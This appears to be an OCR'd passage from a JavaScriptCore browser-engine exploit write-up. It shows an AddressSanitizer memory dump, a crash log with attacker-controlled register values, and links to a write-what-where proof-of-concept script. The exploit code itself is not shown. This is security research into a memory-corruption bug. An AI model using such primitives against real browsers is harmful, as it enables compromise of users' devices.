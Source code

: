```
     0x1c08004aec60: fa fa 00 00 00 00 00 fa fa fa 00 00 00 00 00 fa
     0x1c08004aec70: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fa
     0x1c08004aec80: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fa
     0x1c08004aec90: fa fa 00 00 00 00 00 fa fa fa 00 00 00 00 00 00
   =>0x1c08004aeca0: fa fa fd fd fd[fd]fd fa fa fa fd fd fd fd fd fd
     0x1c08004aecb0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aecc0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aecd0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aece0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd
     0x1c08004aecf0: fa fa fd fd fd fd fd fd fa fa fd fd fd fd fd fd                   
                   
                   
after the replacment:
    print(x[0])  ===  4.191714984059889e+242                   
*/
```

here is the code to observe this pattern <a href="/reclaimcache.js">here</a><br>
And a Simple WriteWhatWhere poc, that only 'spam' the free structure can be found here <a href="/www.js">www.js</a><br>

***NOTE: we didn't really had to talk about gigacage..***

***successfull run with the later should produce:***

```c
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=EXC_I386_GPFLT)
    frame #0: 0x0000000100911758 JavaScriptCore`JSC::putByVal(JSC::ExecState*, JSC::JSValue, JSC::JSValue, JSC::JSValue, JSC::ByValInfo*) + 264
JavaScriptCore`JSC::putByVal:
->  0x100911758 <+264>: movq   0x40(%rdi), %rax
    0x10091175c <+268>: movq   %rsi, %rdi
    0x10091175f <+271>: movq   %r12, %rsi
    0x100911762 <+274>: movl   %r15d, %edx
Target 0: (jsc) stopped.
(lldb) reg r
General Purpose Registers:
       rax = 0x000000010b300000
       rbx = 0x0001414141414141
       rcx = 0x0001414141414141
       rdx = 0x0000000003230300
       rdi = 0x0361616161616161
       
```

***PoC***

![](/poc34.png)
